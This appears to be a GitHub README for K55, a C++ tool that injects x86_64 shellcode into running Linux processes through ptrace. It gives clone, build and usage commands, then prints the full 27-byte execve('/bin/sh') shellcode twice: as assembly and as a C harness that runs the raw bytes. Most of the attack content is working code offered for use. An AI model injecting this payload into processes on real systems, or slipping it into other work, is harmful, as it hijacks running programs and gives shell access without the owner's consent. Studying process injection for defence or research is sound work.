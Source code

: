 ## K55 - Linux x86_64 Process Injection Utility (C++11)

## About K55 
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

### Assembly of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
